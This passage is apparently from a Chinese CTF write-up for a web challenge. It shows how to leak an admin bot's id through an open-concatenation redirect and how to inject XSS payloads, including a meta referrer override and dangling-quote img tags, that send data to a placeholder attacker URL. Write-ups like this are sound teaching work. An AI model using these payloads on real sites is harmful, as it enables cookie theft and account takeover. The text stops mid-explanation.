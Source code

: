 - profile.php页面没有任何过滤，只受到CSP限制

仔细思考上面的各种条件之后，我们起码需要完成两步，一是获取到admin的id，二是
构造xss来获取cookie。

## 获取id ##

首先我们需要找个能够获取id的地方，这里预期加上非预期有两种解法。

第一种是我当时使用的登陆跳转

当你在登陆情况下，如果访问login.php时，会跳转到redirect参数制定的位置，有趣的是，这里redirect虽然有限制，无法跳出当前域，但它却是通过拼接来构造跳转的，例如：
```
https://h4x0rs.date/login.php?msg=Please login&redirect=profile.php
```
就会跳转到
```
https://h4x0rs.date/profile.php?id={my_id}
```

但我们如果把redirect设置为
```
profile.php?id={your_id}&a=
```
就会跳转到
```
profile.php?id={your_id}&a={my_id}
```

然后，我们在your_id对应的profile中写入标签，这里有个小tricks

**用meta引入的referrer设置是可以被覆盖的**

payload:
```
</textarea><meta name="referrer" content="always"><img src={xss_url}></h3>
```

通过这种方式，我们就可以拿到admin bot上的admin_id，然后like它就可以了

当然这只是我使用的方法，还有出题人的解法。

我们回顾profile.php页面的结构，当我们喜欢一个用户后，该用户就会出现在profile.php编辑页面的最下面。

在页面中，有一个很特殊的点在于，整个页面的所有标签属性都是用双引号包裹的，也就是说如果我们在profile处写入
```
</textarea><img src='{xss_url}?a=
```

那么单引号就会包裹后面的所有内容，问题在于我们如何闭合这里的单引号呢，而且chrome有一个特性，**chrome会block所有请求URL中带有\n \r \t的请求**。

而且在注册名字的时候会过滤左尖括号以后的字符，但我们仍然可以通过右尖括号、单引号来闭合前面的img标签。

这里我们注册
```
test' src='{xss_url}?a=

test'>
```
两个账号，并设置profile为
